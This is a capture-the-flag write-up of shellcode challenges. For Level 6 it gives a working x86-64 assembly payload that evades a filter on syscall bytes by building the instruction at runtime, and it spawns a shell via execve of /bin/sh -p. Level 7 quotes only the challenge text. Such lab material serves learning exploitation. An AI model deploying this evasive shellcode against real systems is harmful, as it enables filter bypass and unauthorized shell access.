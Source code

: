 



#### Level 6

> This challenge requires that your shellcode does not have any `syscall`, 'sysenter', or `int` instructions. System calls are too dangerous! This filter works by scanning through the shellcode for the following byte sequences: 0f05(`syscall`), 0f34 (`sysenter`), and 80cd (`int`). One way to evade this is to have your shellcode modify itself to insert the `syscall` instructions at runtime.
>
> Removing write permissions from first 4096 bytes of shellcode.

```assembly
.rept 0x1000
    nop
    .endr
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x702d006873
    xor [rsp], rax
    xor esi, esi
    push rsi
    push 0xb
    pop rsi
    add rsi, rsp
    push rsi
    push 0x10
    pop rsi
    add rsi, rsp
    push rsi
    mov rsi, rsp
    xor edx, edx
    push 0x3b
    pop rax
    push 0x050e
    inc qword ptr [rsp]
    jmp rsp
    nop
```

#### Level 7

> This challenge is about to close stdin, which means that it will be harder to pass in a stage-2 shellcode. You will need to figure an alternate solution (such as unpacking shellcode in memory) to get past complex filters.
>
> This challenge is about to close stderr, which means that you will not be able to get use file descriptor 2 for output.
>
> This challenge is about to close stdout, which means that you will not be able to get use file descriptor 1 for output. You will see no further output, and will need to figure out an alternate way of communicating data back to yourself.
